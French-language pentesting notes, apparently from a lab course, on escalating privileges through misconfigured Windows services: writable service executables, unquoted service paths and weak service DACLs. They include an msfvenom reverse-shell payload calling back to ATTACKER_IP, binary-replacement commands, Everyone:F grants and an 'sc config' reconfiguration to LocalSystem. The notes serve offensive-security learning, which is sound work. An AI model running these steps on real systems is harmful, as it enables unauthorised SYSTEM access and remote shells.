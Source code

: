 > Abuser des mauvaises configurations du service

De manière générale, il est peu probable que les services Windows de base soient vulnérables à quoi que ce soit - les services installés par l'utilisateur sont beaucoup plus susceptibles d'avoir des trous.

Rechercher des services autres que ceux par défaut :

```sh
wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"
```

Vérifions les permissions sur le répertoire

```c
Get-Acl -Path 'C:\Program Files (x86)\System Explorer' | format-list
```

## Context
Chaque service sur une machine Windows aura un exécutable associé qui sera exécuté par le SCM chaque fois qu'un service est démarré.

Afficher la configuration d'un service

```c
sc qc <SERVICE_NAME>
```

Les paramètres les plus important ici sont le :
- `BINARY_PATH_NAME` (Le chemin d'executable du fichier) 
- `SERVICE_START_NAME` (le compte utilisé pour exécuter le service)

Pour vérifier les permissions du fichier ou dossiers sur l'exécutable, on utilise `icacls`:

```c
icacls C:\Windows\system32\svchost.exe
```

Les autorisations les plus importantes sont :

```sh
BUILTIN\User: (F => accès complet)
# Cela signifie que nous pouvons modifier le fichier et insérer la charge utile de notre choix.

Everyone: (M => modification)
# Cela signifie que nous pouvons écraser le fichier avec n'importe quelle charge utile de notre choix.

BUILTIN\Users:(AD) (WD)
# Permettant à l'utilisateur de créer respectivement des sous-répertoires et des fichiers.
```

Charge utile : 

```sh
msfvenom --platform windows -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o WService.exe
```

Dans un scénario normal, vous devrez probablement attendre le redémarrage du service,

```c
sc stop <SERVICE_NAME>
sc start <SERVICE_NAME>
```

# Insecure Permissions on Service Executable 
Autorisations non sécurisées sur l'exécutable du service

> [!NOTE] L'exécutable associé au service n'a pas d'argument 
> Exemple: `C:\Windows\system32\svchost.exe -k apphost`

Si l'exécutable associé à un service dispose de faibles autorisations permettant à un attaquant de le modifier ou de le remplacer, l'attaquant peut obtenir trivialement les privilèges du compte du service.

1. Afficher la configuration d'un service
2. Vérifier les autorisations sur l'exécutable avec `icacls`
3. Regarder les autorisations utile (M)
4. Génerer un payload et démarrons un écouteur

Une fois payload sur le serveur Windows, nous procédons au remplacement de l'exécutable du service par notre charge utile.

```c
cd C:\..\Service-path\

move service-name.exe service-name.exe.bkp

move c:\temp\payload.exe C:\...\Service-path\service-name.exe

icapls service-name.exe /grant Everyone:F
```

Ici la charge utile portera le meme nom que le SERVICE vulnerable

5. Redémarrer le service et obtenir un shell


# Unquoted Service Paths 
Chemins de service non cités

Lorsque nous ne pouvons pas écrire directement dans les exécutables du service comme dans [[#Insecure Permissions on Service Executable]], et que le service est configuré pour pointer vers un exécutable **«non cité `sans guillemets`»**

Nous entendons que le chemin de l'exécutable associé n'est pas correctement mis entre guillemets pour tenir compte des espaces sur le nom du dossier.

> Si on crée l'un des exécutables recherchés avant l'exécutable du service attendu, il peut forcer le service à exécuter un exécutable arbitraire.



> [!NOTE] Rappel
> La plupart des exécutables du service seront installés sous `C:\Program Files`ou `C:\Program Files (x86)`par défaut, ce qui n'est pas accessible en écriture aux utilisateurs non privilégiés. Cela empêche l’exploitation de tout service vulnérable.

1. Afficher la configuration d'un service
2. Vérifier les autorisations sur l'exécutable avec `icacls`
3. Regarder les autorisations utile (AD) et (WD)
4. Génerer un payload et démarrons un écouteur

Une fois la charge utile présente sur le serveur, déplacez-la vers l’un des emplacements où un piratage pourrait se produire.

Exemple de chemin vulnerable :

```c
C:\MyPrograms\Disk Sorter Entreprise\bin\dsksrs.exe
```

5. Placer le payload dans le chemin vulnerable

```c
move payload.exe C:\MyPrograms\Disk.exe 

icacls C:\MyPrograms\Disk.exe /grant Everyone:F
```

6. Redémarrer le service et obtenir un shell

# Insecure Service Permissions 
Autorisations de service non sécurisées

Si la DACL du service (et non la DACL exécutable du service ) vous permet de modifier la configuration d'un service, vous pourrez reconfigurer le service. Cela vous permettra de pointer vers n'importe quel exécutable dont vous avez besoin et de l'exécuter avec n'importe quel compte de votre choix, y compris **SYSTEM** lui-même.

1. Vérifier la DACL d'un service : 

```c
accesschk64.exe -qlc <SERVICE_NAME>
```

Verifiier si le groupe `BUILTIN\\USER` dispose de l'autorisation `SERVICE_ALL_ACCESS` 

2. Génerer un payload et démarrons un écouteur

Accorder les autorisations à tout le monde pour exécuter votre charge utile

```c
icacls C:\Temp\payload.exe /grant Everyone:F
```

Modifier l'exécutable et le compte associés au service : 

```c
sc config THMService binPath="C:\Temp\payload.exe" obj=LocalSystem
```

3. Redémarrer le service et obtenir un shell